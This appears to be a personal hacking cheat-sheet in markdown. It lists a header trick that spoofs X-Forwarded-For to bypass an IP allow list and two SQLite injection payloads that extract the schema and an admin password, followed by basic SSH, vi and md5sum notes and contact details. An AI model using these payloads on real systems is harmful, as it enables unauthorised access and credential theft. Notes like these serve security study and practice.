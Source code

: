 pybass ip filter

X-Forwarded-For: [ip address from the allow list (i used  127.0.0.1 as localhost should normaly be allowed)] 

# SQL INJECTION:
```
test ' || (select sql from sqlite_master) || ' 
test '|| (select password from xde43_users where role="admin" ) ||'
```

# SSH:

```
ssh -i [key file path] user@host -p [port number] [command] 
 ```
 
the [command] will be executed just after loging

# VI :
 
before every action don’t forget the "esc" 

i insert

:q quit 
 
:q! quit without saving

:x save and exit

# creat md5sume of string:

```
echo -n '[string]' | md5sum
```
# Code Beautifier:
https://beautifier.io/





# Contacts:

mhamdy@gmail.com

https://www.linkedin.com/in/mahmoud-hamdy/

